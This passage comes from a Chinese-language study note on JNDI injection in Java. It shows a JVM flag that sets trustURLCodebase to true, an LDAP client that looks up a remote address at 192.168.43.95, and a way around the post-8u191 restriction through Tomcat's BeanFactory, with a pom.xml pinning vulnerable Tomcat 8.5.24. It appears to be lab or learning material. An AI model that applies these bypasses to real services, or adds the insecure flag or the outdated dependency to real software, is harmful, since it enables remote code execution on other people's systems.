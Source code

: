 

手动设置为 true，可以使用 -D 参数来设置系统属性：

```java
java -Dcom.sun.jndi.cosnaming.object.trustURLCodebase=true -jar your-application.jar

```





##### 2、LDAP + JNDI:

```java
public class JNDI_LDAPClient {
    public static void main(String[] args) throws NamingException {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("ldap://192.168.43.95:8085/ObFZSwUr");
    }
}
```

 ![image-20241124113738571](/Users/gehansheng/Library/Application Support/typora-user-images/image-20241124113738571.png)



##### 3、高版本jdk绕过 trustURLCodebase：

Java 8u191之后，JNDI客户端在接受远程引用对象的时候，不使用classFactoryLoction，但是我们还是可以通过JavaFactory来指定一个任意的工厂类，这个类时用于从攻击者控制的Reference对象中提取真实的对象。

这个工厂类需要满足以下几个条件：

(1) 真实对象要求必须存在目标系统的classpath。

(2) 工厂类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法。



org.apache.naming.factory.BeanFactory 满足条件，可以被利用。

org.apache.naming.factory.BeanFactory 默认存在于Tomcat依赖包中，比如 Tomcat 8.5.24版本，因为在 tomcat 8.5.x较新分支 以及 9.x 系列被移除，增强了安全性。



在 pom.xml 中添加合适版本的 tomcat依赖:

```Java
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>8.5.24</version> <!-- 使用最新版本 -->
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-jasper</artifactId>
            <version>8.5.24</version>
        </dependency>
```
